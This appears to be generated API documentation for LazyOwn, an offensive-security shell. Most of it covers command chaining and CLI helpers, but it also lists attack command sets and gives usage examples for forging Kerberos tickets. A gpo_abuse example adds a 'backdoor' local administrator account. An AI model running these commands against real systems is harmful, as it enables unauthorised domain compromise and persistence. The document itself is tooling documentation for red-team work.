- `from_step` (line 191) `def from_step(cls, step)` - *Build a suggestion from a duck-typed resolver step object.

Args:
    step: Any object exposing ``name``, ``source`` and ``reason``
        attributes (e.g. :class:`cli.command_chain.NextStep`) or a
        plain string.

Returns:
    A normalised :class:`ChainSuggestion`.*
- `__init__` (line 250) `def __init__(self, sessions_dir)` - *Store the sessions directory that owns the state file.

Args:
    sessions_dir: Directory under which ``chain_mode.json`` lives.*
- `load` (line 258) `def load(self)` - *Return the persisted enabled flag, or ``None`` when unset.

Returns:
    The stored boolean, or ``None`` when the file is missing or
    malformed.*
- `save` (line 275) `def save(self, enabled)` - *Persist the enabled flag atomically.

Args:
    enabled: Whether chain mode is currently active.*
- `__init__` (line 301) `def __init__(self, config, resolver)` - *Wire the engine with its config, resolver and I/O functions.

Args:
    config: Centralised configuration. Built from defaults when
        omitted.
    resolver: Callable ``(cmd, phase) -> sequence`` returning
        duck-typed steps with ``name``/``source``/``reason``
        attributes. ``None`` yields no suggestions.
    input_fn: Function used to read one line of operator input.
    print_fn: Function used to render the menu lines.
    interactive: When ``False`` the engine never prompts (used by
        headless/daemon shells so the flow cannot block).*
- `enabled` (line 335) `def enabled(self)` - *Whether the chain prompt loop is currently active.*
- `steps_run` (line 340) `def steps_run(self)` - *Number of commands executed through the chain this activation.*
- `set_enabled` (line 344) `def set_enabled(self, value, persist)` - *Toggle chain mode and optionally persist the choice.

Args:
    value: New enabled state.
    persist: When ``True`` write through to the state file.*
- `step` (line 358) `def step(self, last_cmd, phase)` - *Run one chain prompt round for the command that just executed.

Args:
    last_cmd: First token (or full line) of the command that just
        ran, used as the resolver seed.
    phase: Current engagement phase (``recon``, ``enum``, ...)
        forwarded to the resolver.

Returns:
    A :class:`ChainOutcome` describing what the caller should do:
    execute ``command``, skip, or disable chain mode. Returns
    ``OUTCOME_NONE`` without touching stdin when the engine is
    disabled, non-interactive, the verb is in ``skip_verbs`` or
    the auto-pause limit was reached.*
- `_prompt_loop` (line 389) `def _prompt_loop(self, suggestions)` - *Read and interpret operator input, re-prompting on invalid picks.

The loop keeps the operator inside the chain flow: an out-of-range
numeric choice prints a hint and asks again instead of silently
skipping. ESC, Ctrl+C, EOF, and every exit word leave chain mode.

Args:
    suggestions: The ranked suggestions currently on offer.

Returns:
    A :class:`ChainOutcome` describing the operator's decision.*
- `_prompt_line` (line 428) `def _prompt_line(self)` - *Read one chain-prompt line with ESC/Ctrl+C support on real TTYs.

Uses the raw terminal readers when stdin is an interactive TTY so
ESC and Ctrl+C work without pressing Enter. Falls back to the
injected ``input_fn`` (tests, pipes) or the builtin ``input`` for
non-TTY interactive streams.

Returns:
    The operator's line, or raises ``_ChainEscExit`` /
    ``KeyboardInterrupt`` / ``EOFError``.*
- `_suggest` (line 450) `def _suggest(self, verb, phase)`
- `_render_menu` (line 468) `def _render_menu(self, verb, suggestions)`
- `_run` (line 485) `def _run(self, command)`
- `_disable` (line 491) `def _disable(self, reason)`

#### `cli_enhancements.py`
**Path:** `cli/cli_enhancements.py`
**File Doc:** *CLI enhancement primitives for the LazyOwn interactive shell.  This module exposes SOLID, framework-agnostic building blocks used by the ``cli/commands/audit.py`` CommandSet to extend the LazyOwn shell with:  - Fuzzy command discovery (item 4). - Payload-aware tab completion (item 5). - Dynamic alias resolution at execution time (item 6). - Hot-reload of declarative addons / Lua plugins (item 7). - Live tail of long-running commands' partial output (item 8). - Transcript indexing + grep across recent command outputs (item 10). - Interactive forms for commands with many parameters (item 11).  Design notes ------------ - Each primitive depends on small ``typing.Protocol`` interfaces so unit tests can substitute fakes without spinning up a cmd2 shell. - Filesystem and runtime side effects live in concrete adaptors only; the algorithmic core is pure. - No imports from ``lazyown.py`` are allowed: the shell composes these primitives, not the other way around (Dependency Inversion).*

**Classes:**
- `PayloadProvider` (line 40) `class PayloadProvider(Protocol)` - *Read-only view onto ``payload.json`` style configuration.*
- `CommandLister` (line 47) `class CommandLister(Protocol)` - *Source of command metadata for indexing / fuzzy matching.*
- `TerminalIO` (line 53) `class TerminalIO(Protocol)` - *Minimal duck-typed prompt/print pair so tests can fake it.*
- `CommandInfo` (line 61) `class CommandInfo` - *Lightweight description of a shell command.*
- `FuzzyMatch` (line 75) `class FuzzyMatch` - *A scored fuzzy match against a CommandInfo.*
- `FuzzyCommandIndex` (line 83) `class FuzzyCommandIndex` - *Search a command catalogue with token-aware fuzzy matching.

Scoring favours exact and prefix matches over substring and
similarity-only hits, then falls back to ``difflib.SequenceMatcher``
so the index degrades gracefully when ``rapidfuzz`` is missing.*
- `CompletionResult` (line 138) `class CompletionResult` - *A single tab-completion suggestion.*
- `PayloadAwareCompleter` (line 145) `class PayloadAwareCompleter` - *Suggest values from ``payload.json`` for context-sensitive arguments.

The completer is intentionally simple — it inspects the command name and
the partial token under the cursor and returns suggestions drawn from:

- ``rhost`` and ``targets[*].ip`` for ``set rhost``, ``set domain`` etc.
- Wordlist files on disk for ``gobuster``, ``ffuf``, ``hashcat``.
- Available addons and Lua plugins for ``run`` / ``reload``.
- Stored credentials for ``evil``, ``cme``, ``secretsdump``.

The shell's existing ``complete_*`` per-command hooks remain authoritative
where they exist; this helper is invoked from ``completedefault`` to fill
the gap for the ~280 commands that don't define their own.*
- `AliasResolver` (line 234) `class AliasResolver(ABC)` - *Resolves alias templates into executable command strings.*
- `DynamicAliasResolver` (line 242) `class DynamicAliasResolver(AliasResolver)` - *Resolve placeholders at execution time, not at shell load.

The previous loader pre-substituted ``{rhost}`` etc. against the payload
snapshot taken at startup. That meant editing ``payload.json`` at runtime
(e.g. via ``set rhost X``) only affected commands invoked through cmd2's
onecmd_plus_hooks pathway. This resolver always renders against the
payload provided by the caller, so a ``set rhost`` immediately propagates
to every alias the operator types next.*
- `HotReloader` (line 270) `class HotReloader(ABC)` - *Notify subscribers when a watched directory changes.*
- `AddonHotReloader` (line 280) `class AddonHotReloader(HotReloader)` - *Polling watcher over ``lazyaddons/`` and ``plugins/``.

A polling loop is intentionally chosen over watchdog inotify so this
works on remote shells, in containers, and over NFS — environments where
inotify is unreliable. Pass a fast tick (e.g. 2.0s) when used interactively.*
- `StatusUpdate` (line 362) `class StatusUpdate` - *One progress observation parsed from a partial scan output.*
- `LiveStatusTail` (line 371) `class LiveStatusTail` - *Parse a partial nmap / pwntomate file and emit a structured update.

The parser is best-effort and forgiving: anything it doesn't recognise
becomes ``last_line`` so the operator still sees something live.*
- `TranscriptEntry` (line 418) `class TranscriptEntry` - *A captured command + output pair.*
- `TranscriptStore` (line 427) `class TranscriptStore` - *In-memory ring buffer of recent command outputs with regex grep.

Persists to ``sessions/_cli_transcript.jsonl`` so a restart does not lose
the history; on startup the most recent ``capacity`` entries are loaded
back. Each entry stores: timestamp, command, output (truncated to
``max_output_chars``), and artefact paths the command claims to have
produced (informational only).*
- `FormField` (line 555) `class FormField` - *Specification for one input in an interactive form.*
- `FormSpec` (line 566) `class FormSpec` - *A bundle of form fields plus a target command name.*
- `_DefaultTerminalIO` (line 574) `class _DefaultTerminalIO` - *Std-in/out adaptor; falls back to non-interactive defaults gracefully.*
- `InteractiveForm` (line 588) `class InteractiveForm` - *Walk the operator through a form, returning a populated dict.

Validates required fields and accepts ``options`` constraints. Falls back
to defaults silently when the IO layer is non-interactive (CI, scripts).*
- `DictPayloadProvider` (line 635) `class DictPayloadProvider` - *Wrap any plain ``dict`` so it satisfies :class:`PayloadProvider`.*
- `StaticCommandLister` (line 651) `class StaticCommandLister` - *Source for FuzzyCommandIndex backed by a fixed list of CommandInfo.*

**Functions:**
- `commands_from_cmd2_shell` (line 661) `def commands_from_cmd2_shell(shell)` - *Best-effort extraction of CommandInfo entries from a live cmd2 shell.

Uses ``shell.get_all_commands()`` when available; otherwise falls back
to scanning ``do_*`` attributes. Aliases are pulled from ``shell.aliases``.*
- `_extract_doc` (line 696) `def _extract_doc(shell, name)`
- `_sub` (line 256) `def _sub(m)`

**Methods:**
- `get` (line 43) `def get(self, key, default)`
- `keys` (line 44) `def keys(self)`
- `commands` (line 50) `def commands(self)`
- `prompt` (line 56) `def prompt(self, message, default)`
- `emit` (line 57) `def emit(self, line)`
- `__init__` (line 91) `def __init__(self, source)`
- `search` (line 94) `def search(self, query, limit)` - *Return the top ``limit`` matches ordered by descending score.*
- `_score` (line 109) `def _score(info, q)`
- `__init__` (line 164) `def __init__(self, payload, addon_lister, plugin_lister, credential_lister)`
- `complete` (line 176) `def complete(self, command, partial)` - *Return suggestions for ``partial`` given the leading ``command``.*
- `_suggest_payload_keys` (line 196) `def _suggest_payload_keys(self, partial)`
- `_suggest_targets` (line 202) `def _suggest_targets(self, partial)`
- `_suggest_wordlist_keys` (line 213) `def _suggest_wordlist_keys(self, partial)`
- `_suggest_addons` (line 221) `def _suggest_addons(self, partial)`
- `_suggest_plugins` (line 224) `def _suggest_plugins(self, partial)`
- `_suggest_credentials` (line 227) `def _suggest_credentials(self, partial)`
- `expand` (line 238) `def expand(self, alias_name, raw_template, payload)` - *Return the alias rendered against the current payload.*
- `expand` (line 255) `def expand(self, alias_name, raw_template, payload)`
- `start` (line 274) `def start(self)`
- `stop` (line 277) `def stop(self)`
- `__init__` (line 288) `def __init__(self, directories, on_change, tick_seconds)`
- `start` (line 301) `def start(self)`
- `stop` (line 313) `def stop(self)`
- `poll_once` (line 319) `def poll_once(self)` - *Run a single scan, fire callbacks for changed paths, return them.*
- `_loop` (line 336) `def _loop(self)`
- `_scan` (line 341) `def _scan(self)`
- `parse` (line 382) `def parse(self, content)`
- `__init__` (line 437) `def __init__(self, sessions_dir, capacity, max_output_chars)`
- `append` (line 451) `def append(self, command, output, artefacts)`
- `grep` (line 465) `def grep(self, pattern, command_filter, limit, case_insensitive)` - *Return matching lines across all stored outputs.*
- `list` (line 497) `def list(self, limit)`
- `_persist` (line 509) `def _persist(self, entry)`
- `_load` (line 527) `def _load(self)`
- `prompt` (line 577) `def prompt(self, message, default)`
- `emit` (line 584) `def emit(self, line)`
- `__init__` (line 595) `def __init__(self, io)`
- `render` (line 598) `def render(self, spec, defaults)`
- `_field_label` (line 619) `def _field_label(field_spec, default)`
- `__init__` (line 638) `def __init__(self, data)`
- `get` (line 641) `def get(self, key, default)`
- `keys` (line 644) `def keys(self)`
- `update` (line 647) `def update(self, data)`
- `__init__` (line 654) `def __init__(self, commands)`
- `commands` (line 657) `def commands(self)`

#### `command_chain.py`
**Path:** `cli/command_chain.py`
**File Doc:** *Command chain registry: explicit prerequisites and dynamic next steps.  The chain answers two questions for both the human operator and the AI:  1. ``prev(cmd)`` — what should have run **before** ``cmd`` so it makes sense. These are static prerequisites declared once and shared by CLI and MCP. 2. ``next(cmd, params, target)`` — what to run **after** ``cmd``. Combines a static kill-chain map (deterministic, fast) with a dynamic resolver that consults the latest nmap services and the exploration engine so the recommendation reflects the actual attack surface.  Design (SOLID):  - ``ChainConfig`` centralises every magic value (history filename, default fan-out, service-to-followup table). - ``PrerequisiteRegistry`` owns the static prev map (one reason to change). - ``StaticNextRegistry`` reuses ``cli.reactive_hints._KILL_CHAIN_NEXT`` so the static next-hop table stays single-source. - ``ServiceNextResolver`` is a pure ranking primitive over discovered services. - ``DynamicNextResolver`` composes static + service + exploration-engine signals into an ordered, de-duplicated suggestion list with provenance. - ``CommandChain`` is the facade consumed by CLI (``do_prev`` / ``do_next``), MCP (``lazyown_command_prev`` / ``lazyown_command_next``), and any future TUI widget.  Zero coupling to ``cmd2``, ``flask``, ``rich`` or ``lazyown.py``.*

**Classes:**
- `ChainConfig` (line 123) `class ChainConfig` - *Centralised constants for the command chain module.*
- `NextStep` (line 132) `class NextStep` - *A single recommended next command, with provenance for the operator.*
- `PrerequisiteRegistry` (line 156) `class PrerequisiteRegistry` - *Static prev-map registry. One reason to change: the prerequisite table.*
- `StaticNextRegistry` (line 177) `class StaticNextRegistry` - *Wrapper over the legacy ``_KILL_CHAIN_NEXT`` map (shared source).*
- `ServiceNextResolver` (line 193) `class ServiceNextResolver` - *Map nmap-discovered services to follow-up verbs.*
- `DynamicNextResolver` (line 219) `class DynamicNextResolver` - *Compose static, service, and exploration signals into an ordered list.*
- `CommandChain` (line 335) `class CommandChain` - *Facade exposing prev + next to CLI, MCP, and future TUI widgets.*

**Functions:**
- `_normalise` (line 145) `def _normalise(name)` - *Strip an optional ``do_`` prefix and lowercase the verb.*

**Methods:**
- `to_dict` (line 139) `def to_dict(self)` - *Return a JSON-friendly representation of the step.*
- `__init__` (line 159) `def __init__(self, config)` - *Store the configuration that owns the prerequisite table.*
- `prerequisites` (line 164) `def prerequisites(self, cmd)` - *Return the ordered list of prerequisite commands for ``cmd``.*
- `missing` (line 170) `def missing(self, cmd, history)` - *Return prerequisites that have **not** yet appeared in ``history``.*
- `next_for` (line 180) `def next_for(self, cmd)` - *Return the deterministic kill-chain successors of ``cmd``.*
- `phase_priority` (line 186) `def phase_priority(self, phase)` - *Return the phase-priority verbs used as a fallback.*
- `__init__` (line 196) `def __init__(self, config)` - *Store the configuration providing the service follow-up table.*
- `followups` (line 201) `def followups(self, services)` - *Return ``(verb, reason)`` pairs for every triggered follow-up.*
- `__init__` (line 222) `def __init__(self, config, static_registry, service_resolver, exploration_engine)` - *Wire collaborators together. All arguments are injectable for tests.*
- `resolve` (line 236) `def resolve(self, cmd, params, target, phase, limit)` - *Return the ordered, de-duplicated next-step recommendations.

Args:
    cmd: The command that just ran. Pass an empty string when the
        caller wants suggestions for the current engagement instead
        of a specific predecessor.
    params: Live payload mapping (used to resolve victim OS for
        addon/tool filtering). Optional.
    target: Optional rhost filter for nmap XML lookups.
    phase: Current engagement phase identifier. Used only when the
        static and dynamic resolvers return nothing.
    limit: Maximum number of steps to return. Defaults to
        ``ChainConfig.default_limit``.

Returns:
    Ordered list of :class:`NextStep`. Empty when no signal exists.*
- `_ensure_engine` (line 308) `def _ensure_engine(self, params)`
- `_append` (line 318) `def _append(steps, seen, name, source, reason, history)`
- `__init__` (line 338) `def __init__(self, config, prerequisites, next_resolver)` - *Wire collaborators together using the supplied configuration.*
- `prev` (line 350) `def prev(self, cmd)` - *Return the ordered prerequisite commands for ``cmd``.*
- `missing_prerequisites` (line 355) `def missing_prerequisites(self, cmd, history)` - *Return prerequisites of ``cmd`` not present in ``history``.*
- `next` (line 360) `def next(self, cmd, params, target, phase, limit)` - *Return ordered next-step recommendations. See :meth:`DynamicNextResolver.resolve`.*
- `chain` (line 372) `def chain(self, cmd, params, target, phase, limit)` - *Return a serialisable ``{prev, next}`` view for the given command.*

#### `command_explorer.py`
**Path:** `cli/command_explorer.py`
**File Doc:** *Interactive command explorer by phase and goal for the LazyOwn shell.  Organizes the 727+ commands into user-friendly categories based on what the operator wants to accomplish, not technical groupings.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``CommandExplorer`` receives its dependencies via constructor.*

**Classes:**
- `ExplorerConfig` (line 189) `class ExplorerConfig` - *Centralised constants for the command explorer.*
- `CommandExplorer` (line 207) `class CommandExplorer` - *Interactive command explorer organized by user goals.

Args:
    aliases: Live aliases dict from the shell.
    params: Live params dict from the shell.
    config: Optional config override.*

**Functions:**
- `_load_command_index` (line 195) `def _load_command_index(path)` - *Load the command index JSON. Returns empty dict on failure.*

**Methods:**
- `__init__` (line 216) `def __init__(self, aliases, params, config)`
- `render_goals_overview` (line 227) `def render_goals_overview(self)` - *Print the goals table showing all available categories.*
- `render_goal_commands` (line 240) `def render_goal_commands(self, goal_key)` - *Print commands for a specific goal.*
- `render_search` (line 260) `def render_search(self, query)` - *Search commands by keyword across all goals.*

#### `command_form.py`
**Path:** `cli/command_form.py`
**File Doc:** *Textual form-mode launcher for LazyOwn commands.  The form turns any ``do_*`` command into a guided launcher: the operator picks a command name, sees the inferred summary, reviews the relevant ``payload.json`` values that the command would read, types optional extra arguments, and confirms with Enter. The launcher returns the final command string so the cmd2 shell can dispatch it as if the operator had typed it.  The form does not parse argparser specifications today — it surfaces the fields most commonly tuned per invocation (target, ports, wordlists, custom args) so the operator no longer has to remember flag names from the docs. New per-command fields are added by extending :attr:`CommandFormConfig.field_sets`.  Design (SOLID):  - Single Responsibility: :class:`CommandFormConfig` owns constants, :class:`CommandFormState` builds the field list and assembles the final command, :class:`CommandFormApp` renders. - Open/Closed: a new per-command field set is one tuple entry in the config; the state and the app do not change. - Dependency Inversion: the state takes a pre-loaded command index + payload mapping; tests inject in-memory dicts.*

**Classes:**
- `FormField` (line 37) `class FormField` - *Single editable input in the form.*
- `CommandFieldSet` (line 48) `class CommandFieldSet` - *Fields the form surfaces for a given command name.*
- `CommandFormConfig` (line 56) `class CommandFormConfig` - *Centralised constants for the form-mode launcher.*
- `CommandFormState` (line 116) `class CommandFormState` - *Pure data layer for the form.*
- `_CommandFormApp` (line 309) `class _CommandFormApp(App)`

**Functions:**
- `_load_index` (line 236) `def _load_index()`
- `build_state` (line 247) `def build_state(command_name, payload, index, config)` - *Wire the canonical state used by :func:`launch_form`.*
- `launch_form` (line 262) `def launch_form(command_name, payload, state, runner)` - *Open the form and return the populated state on submit.

Args:
    command_name: ``do_*`` (or plain verb) to pre-fill.
    payload: Loaded ``payload.json``.
    state: Optional pre-built state (tests inject one).
    runner: Optional callable used by tests instead of Textual.

Returns:
    The :class:`CommandFormState` the operator confirmed, or
    ``None`` when cancelled / Textual is unavailable. The caller
    applies :meth:`CommandFormState.overrides` through ``assign``
    and dispatches :meth:`CommandFormState.verb_line`.*
- `_build_app` (line 298) `def _build_app(state, theme)`

**Methods:**
- `__post_init__` (line 126) `def __post_init__(self)`
- `fields` (line 131) `def fields(self)` - *Return the fields associated with :attr:`command_name`.*
- `summary` (line 139) `def summary(self)` - *Return the command summary from the index, or an empty string.*
- `set_value` (line 150) `def set_value(self, identifier, value)` - *Update the value of one field.*
- `set_extra_args` (line 154) `def set_extra_args(self, value)` - *Replace the extra-args buffer.*
- `build_command` (line 158) `def build_command(self)` - *Return the cmd-line preview string the operator sees.

The preview is a single readable line — overrides are rendered
as inline ``key=value`` annotations. The actual dispatch in
:class:`LazyOwnShell.do_form` applies overrides one at a time
through ``assign`` (see :meth:`overrides` + :meth:`verb_line`)
so the form never depends on cmd2's settable subsystem.*
- `overrides` (line 173) `def overrides(self)` - *Return ``[(payload_key, value), ...]`` for fields the operator changed.

Each pair is applied through ``assign`` by the dispatcher so the
mutation is validated and persisted just like a manual
``assign rhost 10.0.0.5`` would be.*
- `verb_line` (line 188) `def verb_line(self)` - *Return ``"<verb> <extra_args>"`` ready for the shell.*
- `is_valid` (line 195) `def is_valid(self)` - *Return ``True`` when the command name is known in the index.*
- `_default_for` (line 200) `def _default_for(self, field_spec)`
- `_payload_str` (line 205) `def _payload_str(self, key)`
- `_iter_rows` (line 213) `def _iter_rows(self)`
- `_normalise_command` (line 220) `def _normalise_command(name)`
- `_verb` (line 229) `def _verb(name)`
- `__init__` (line 325) `def __init__(self)`
- `compose` (line 330) `def compose(self)`
- `on_mount` (line 348) `def on_mount(self)`
- `on_input_changed` (line 351) `def on_input_changed(self, event)`
- `on_input_submitted` (line 360) `def on_input_submitted(self, event)`
- `action_submit` (line 363) `def action_submit(self)`
- `action_cancel` (line 366) `def action_cancel(self)`
- `_refresh_preview` (line 369) `def _refresh_preview(self)`

#### `__init__.py`
**Path:** `cli/commands/__init__.py`
**File Doc:** *Phase-scoped CommandSet modules.  Each submodule defines one or more ``cmd2.CommandSet`` subclasses grouping commands that share a kill-chain phase or attack domain. ``cli.registry`` discovers and registers them onto ``LazyOwnShell`` at startup.  Active CommandSets (27) -----------------------  - ``cli.commands.recon`` — 12 commands (nmap, DNS, web fingerprinting) - ``cli.commands.enum``  — 10 commands (SMB, RPC, LDAP quick checks) - ``cli.commands.scan`` — Network scanning commands - ``cli.commands.exploit`` — 10 commands (sqlmap, lazypwn, rev, commix, download_exploit, img2cookie, wrapper, kusa, ticketer, www) - ``cli.commands.postexp`` — 8 commands (lazywebshell, disableav, mimikatzpy, scavenger, follina, shellcode, ofuscatorps1, atomic_lazyown) - ``cli.commands.persist`` — 7 commands (createwebshell, createrevshell, createwinrevshell, conptyshell, pwncatcs, revwin) - ``cli.commands.cred`` — 9 commands (hashcat, john2hash, hydra, medusa, crunch, cewl, sshkey, creds_py, spraykatz) - ``cli.commands.lateral`` — 8 commands (socat, chisel, set_proxychains, ngrok, ligolo, nc, wmiexec, ssh) - ``cli.commands.report`` — 8 commands (gpt, eyewitness, gowitness, createtargets, banners, vulns, create_session_json, malwarebazar) - ``cli.commands.privilege_escalation`` — 9 commands (linpeas, winpeas, pspy) - ``cli.commands.exfiltration`` — 19 commands (data exfiltration tools) - ``cli.commands.command_and_control`` — 6 commands (c2_status, c2_beacons, c2_keygen, c2_quickstart, c2_beacon_cmd, c2_implant) - ``cli.commands.cloud`` — 4 commands (cloud_metadata, cloud_buckets, cloud_scan, cloud_iam)*

*No symbols extracted*

#### `_base.py`
**Path:** `cli/commands/_base.py`
**File Doc:** *Base class for phase-scoped ``CommandSet`` modules.  ``LazyOwnCommandSet`` extends :class:`cmd2.CommandSet` with the affordances that the legacy ``do_*`` methods rely on when they are lifted out of ``LazyOwnShell`` and into per-phase modules under ``cli/commands/``.  Two design constraints shape this base class:  1. The migrated methods must execute verbatim. They reference shell attributes such as ``self.params``, ``self.scripts``, ``self.c2_url`` and instance helpers like ``self.run_script``. Rewriting hundreds of call sites is unsafe; instead this base forwards unknown attribute reads to the bound shell once ``cmd2`` injects it through ``register_command_set``.  2. Forwarding must remain inert before registration. Tests instantiate sets directly to assert structure (method presence, decorators); those instances have no parent shell, so unknown attribute access must raise :class:`AttributeError` exactly as a plain class would.*

**Classes:**
- `LazyOwnCommandSet` (line 53) `class LazyOwnCommandSet(CommandSet)` - *Base class for every phase ``CommandSet`` defined under ``cli.commands``.

Attributes:
    phase: Kill-chain phase identifier (``recon``, ``enum``, ...). Used
        by tooling such as ``lazyown_phase_guide`` and the autonomous
        daemon to filter commands by phase.
    category: cmd2 help category label. Defaults to a Title-Case form
        of ``phase`` when not set explicitly.*

**Functions:**
- `extract_flag` (line 36) `def extract_flag(args, flag)` - *Extract ``--flag <value>`` pair shared by CommandSets.

Args:
    args: Tokenised argument list.
    flag: Flag name to locate.

Returns:
    Value following flag, else None.*

**Methods:**
- `_resolve_shell` (line 67) `def _resolve_shell(self)` - *Return the bound parent shell, or ``None`` before registration.

``cmd2`` stores the parent shell in a name-mangled private attribute
and exposes it through the :attr:`cmd2.CommandSet._cmd` property, which
raises :class:`CommandSetRegistrationError` until the set is
registered. This helper centralises that access so the migrated
``do_*`` methods can forward attribute reads without leaking the cmd2
registration exception or depending on cmd2 internals.

Returns:
    The parent ``LazyOwnShell`` instance once the set is registered,
    otherwise ``None``.*
- `params` (line 88) `def params(self)` - *Return the live ``params`` dict owned by the parent shell.

Returns:
    The same dict object that ``LazyOwnShell.params`` exposes when
    the set is registered, or an empty dict when it is not.*
- `payload` (line 99) `def payload(self)` - *Return the parent shell's ``Config`` wrapper when available.

Returns:
    ``LazyOwnShell.config`` when the shell publishes it, otherwise
    ``LazyOwnShell.params`` so callers always receive a mapping-
    like object. Falls back to an empty dict before registration.*
- `__getattr__` (line 112) `def __getattr__(self, name)` - *Forward unknown attribute access to the bound shell or utils.

``cmd2`` binds the parent shell to ``self._cmd`` when the
``CommandSet`` is registered. Migrated methods reference shell
state directly (``self.run_script``, ``self.c2_url``, ...) so this
forwarder lets them execute unmodified once they are wired in.

Migrated ``do_*`` methods also call single-underscore shell helpers
that stayed on ``LazyOwnShell`` (``self._scope_save``,
``self._load_adversaries``, ``self._payload_factory``, ...). Those
are forwarded to the bound shell as well; only dunder names and
``complete_*`` completion probes are refused outright, because
forwarding them would leak Python/cmd2 machinery. Private names are
never resolved from ``utils`` — a private helper only ever lives on
the shell.

When a public name is not on the shell, the forwarder falls back to
the ``utils`` module namespace, giving migrated CommandSets access
to every re-exported symbol (``os``, ``json``, ``glob``,
``getprompt``, category constants, etc.) without per-file import
boilerplate.

Args:
    name: Attribute name requested by the caller.

Returns:
    The attribute value resolved on the bound shell or utils.

Raises:
    AttributeError: When ``name`` is a dunder or ``complete_*``
        probe, when the shell is not yet bound (inert before
        registration), or when neither the shell nor ``utils``
        expose a public ``name``.*
- `__setattr__` (line 164) `def __setattr__(self, name, value)` - *Forward prompt attribute writes to the bound shell.

The migrated ``do_*`` methods were written against ``LazyOwnShell``
and assign ``self.custom_prompt`` / ``self.prompt`` expecting the
shell to hold them. Without forwarding, those writes landed on the
CommandSet and the Neon Box prompt never refreshed after ``assign``.
Only the two prompt names are forwarded; every other attribute stays
on the CommandSet so cmd2 internals remain untouched.

Args:
    name: Attribute name being set.
    value: Attribute value.*

#### `_dormancy.py`
**Path:** `cli/commands/_dormancy.py`
**File Doc:** *Dormancy marker for incrementally migrated command sets.  During the staged migration of the ``do_*`` methods from ``lazyown.py`` into phase-scoped ``CommandSet`` modules under ``cli/commands/``, both sources temporarily coexist:  * ``LazyOwnShell`` in ``lazyown.py`` still owns the canonical methods. * The new phase modules carry a parallel copy ready for activation.  If the new modules registered immediately, ``cmd2.register_command_set`` would raise ``CommandSetRegistrationError`` for every method that collides with an attribute already bound to the shell. To avoid that without sacrificing discoverability or test coverage, migrated sets inherit from :class:`PendingCommandSet`. ``cli.registry.register_command_sets`` skips any class flagged this way; once the originals are deleted from ``lazyown.py`` the base class is swapped to :class:`LazyOwnCommandSet` and the set joins the active registry on the next shell start.  Discovery (``iter_command_sets``) still yields pending sets so tests can validate their structure independently of activation.*

**Classes:**
- `PendingCommandSet` (line 30) `class PendingCommandSet(LazyOwnCommandSet)` - *Base class for migrated-but-not-yet-active phase command sets.

Subclasses are discovered by :func:`cli.registry.iter_command_sets` but
excluded from :func:`cli.registry.register_command_sets`, so the
framework boots without colliding with the equivalent ``do_*`` methods
still defined on :class:`LazyOwnShell`.

Activation procedure:
    1. Remove the equivalent ``do_*`` methods from ``lazyown.py``.
    2. Change the subclass base from :class:`PendingCommandSet` to
       :class:`LazyOwnCommandSet`.
    3. Restart the shell (``./run``) or the MCP server
       (``bash skills/mcp_restart.sh``).

The marker is read via ``getattr(cls, '__lazyown_pending__', False)``
so non-marker subclasses always opt out by absence.*

**Functions:**
- `is_pending` (line 52) `def is_pending(cs_class)` - *Return ``True`` when ``cs_class`` is flagged as a pending migration.

Args:
    cs_class: A ``CommandSet`` subclass discovered by the registry.

Returns:
    ``True`` when the class declares ``__lazyown_pending__ = True``,
    either directly or through inheritance from :class:`PendingCommandSet`.
    ``False`` for active sets and for non-class inputs.*

#### `active_directory.py`
**Path:** `cli/commands/active_directory.py`
**File Doc:** *Active Directory attack commands — Kerberos, tickets, delegation, DACL, GPO, kerberoasting.  Provides: kerberos_ticket         — Forge silver/golden/diamond/sapphire tickets delegation_enum         — Enumerate Kerberos delegation (unconstrained, constrained, RBCD) delegation_attack       — Compute and display delegation attack paths dacl_abuse              — Enumerate and exploit dangerous AD DACL/SACL entries gpo_abuse               — Enumerate and exploit Group Policy Objects kerberoast              — Advanced Kerberoasting with AES-only and targeted mode adcs_check              — Check for AD CS vulnerabilities (ESC1-ESC13)*

**Classes:**
- `ActiveDirectoryCommandSet` (line 18) `class ActiveDirectoryCommandSet(LazyOwnCommandSet)` - *Kerberos, delegation, DACL, GPO, and Kerberoasting attacks.*

**Methods:**
- `do_kerberos_ticket` (line 24) `def do_kerberos_ticket(self, line)` - *Forge Kerberos tickets for persistence and lateral movement.

Usage: kerberos_ticket <type> [options]

Types:
    silver  — Forge a service ticket (needs service account hash)
    golden  — Forge a TGT (needs krbtgt hash)
    diamond — Golden ticket + enhanced PAC with admin group SIDs
    sapphire — S4U2self-based ticket via RBCD

Silver ticket options:
    --spn <SPN> --domain <DOMAIN> --sid <DOMAIN_SID> --hash <NT_HASH> [--user <user>] [--rid <500>]

Golden ticket options:
    --domain <DOMAIN> --sid <DOMAIN_SID> --hash <KRBTGT_NT_HASH> [--user <user>] [--groups <513,512,520,518,519>]

Examples:
    kerberos_ticket silver --spn cifs/DC01.domain.local --domain domain.local --sid S-1-5-21-... --hash NT_HASH
    kerberos_ticket golden --domain domain.local --sid S-1-5-21-... --hash KRBTGT_HASH
    kerberos_ticket diamond --domain domain.local --sid S-1-5-21-... --hash KRBTGT_HASH --groups 512,519*
- `do_delegation_enum` (line 139) `def do_delegation_enum(self, line)` - *Enumerate Kerberos delegation configurations.

Usage: delegation_enum [--domain DOMAIN] [--input <bloodhound_json_file|ldap_output>]

Discovers:
    - Unconstrained delegation (TRUSTED_FOR_DELEGATION)
    - Constrained delegation (msDS-AllowedToDelegateTo)
    - Resource-Based Constrained Delegation (msDS-AllowedToActOnBehalfOfOtherIdentity)*
- `do_delegation_attack` (line 175) `def do_delegation_attack(self, line)` - *Display computed delegation attack paths with exploitation commands.

Usage: delegation_attack [--domain DOMAIN]*
- `do_dacl_abuse` (line 199) `def do_dacl_abuse(self, line)` - *Enumerate and exploit dangerous AD DACL/SACL entries.

Usage: dacl_abuse [--domain DOMAIN] [--plan <technique>]

Detects: GenericAll, GenericWrite, WriteDacl, WriteOwner, ForceChangePassword,
         AddMember, DCSync, AddKeyCredentialLink, and more.

Generates exploitation commands for each abuse primitive found.*
- `do_gpo_abuse` (line 233) `def do_gpo_abuse(self, line)` - *Enumerate and exploit Group Policy Objects.

Usage: gpo_abuse [--domain DOMAIN] [--command "cmd /c ..."] [--user ATTACKER_USER]

Abuse techniques: ScheduledTask, StartupScript, LogonScript,
                  LocalAdmin addition, WMI Filter, Registry preference, Service install.

Examples:
    gpo_abuse --command "net user backdoor P@ssw0rd! /add && net localgroup Administrators backdoor /add"*
